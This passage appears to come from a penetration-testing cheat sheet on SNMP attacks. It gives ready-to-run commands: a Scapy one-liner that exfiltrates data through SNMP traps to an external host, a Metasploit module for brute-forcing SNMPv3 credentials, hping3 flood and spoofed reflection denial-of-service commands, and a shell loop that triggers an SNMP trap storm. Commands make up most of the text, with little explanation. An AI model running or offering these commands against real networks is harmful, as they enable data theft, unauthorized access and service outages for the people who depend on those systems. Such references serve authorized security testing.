 *   **Tool:** \[\[Scapy]]

    ```python
    send(IP(dst="<nms_ip>")/UDP(dport=162)/SNMPv2Trap(community='public', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value='Exfiltrated Data')]))
    ```
* **Description:** Use SNMP traps to send encoded data to an external NMS, effectively exfiltrating data from the network.

## Exploits and Attacks

### Password Attacks

#### Brute-Forcing SNMPv3 Credentials

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/scanner/snmp/snmp_login
    set RHOSTS <target_ip>
    set VERSION 3
    set USERNAME snmpv3user
    set PASS_FILE /path/to/password_list.txt
    run
    ```
* **Description:** Attempts to brute-force SNMPv3 credentials to gain unauthorized access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SNMP Trap Storm

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    while true; do snmptrap -v 2c -c public <nms_ip> "" <oid> s "Flood"; done
    ```
